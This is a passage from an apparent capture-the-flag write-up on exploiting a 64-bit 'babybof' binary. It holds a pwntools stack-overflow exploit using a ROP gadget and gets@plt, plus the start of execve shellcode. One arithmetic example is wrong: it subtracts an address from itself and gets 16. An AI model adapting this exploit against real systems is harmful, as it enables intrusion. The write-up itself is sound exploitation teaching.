 ```python
#!/usr/bin/python2

from pwn import *

context.update(arch="amd64", os="linux", bits=64)
r = process("./babybof")
#r = remote("chals20.cybercastors.com", 14425)
#print(r.recvuntil("name: "))
pop_rdi = 0x00000000004007f3
gets_plt = 0x4005d0
data = 0x0000000000601058
payload = ""
payload += "A"*264
payload += p64(pop_rdi)
payload += p64(data)
payload += p64(gets_plt)
r.sendline(payload)
r.interactive()
r.close()
```

so I told the pwntools that I'm going to play with a 64-bit executable compiled for linux. we start by running the binary with the process() function. And I also initialzed the varibale r with the remote() function to connect to the server but I commented for the time because we need to interact and test our payload against the local binary. I also commented the r.recvuntil("name: ") because the local binary didn't got the right buffering and so the name: string is not outputed, this will make pwntools search for the string forever until you set a timeout so if the string didn't appear in the number of seconds passed in with the timeout argument it will complete it's execution, you can test with `print(r.recvuntil("name: ", timeout=3))`.

I then set up some variables with the addresses of our gadget, the gets@plt address and the data section address. You can find the gets@plt function by disassembly the main function with gdb, running the command `disas main`.

![gets_plt](C:\Users\ADMIN\Desktop\WRITEUPs\gets_plt.PNG)

and you can get the address of the data section by running `info files` with gdb or with your favorite disassembler.

![sections](C:\Users\ADMIN\Desktop\WRITEUPs\sections.PNG)

You can get the size of the section by subtracting the first address from the second. For example for the data section it's `0x0000000000601068 - 0x0000000000601068 = 16` also the disassemblers out there like ghidra would show it to you. You might that 16 bytes of space is not enough especially when we are writing 64-bit shellcode but it's not problem here because the data and bss sections are below each other and so our buffer will overflow to the bss section making the full shellcode together. the p64() function is a way used to convert from an integer little/big endian because that's how it will be correctly placed in memory and that the program will understand it. It's basically packing the integers. Good so let's start with making our shellcode. 

```python
shellcode = asm("""
    mov rax, 59
    mov rdi, {0}
    xor rsi, rsi
    xor rdx, rdx
    syscall
""".format(data+22))
```

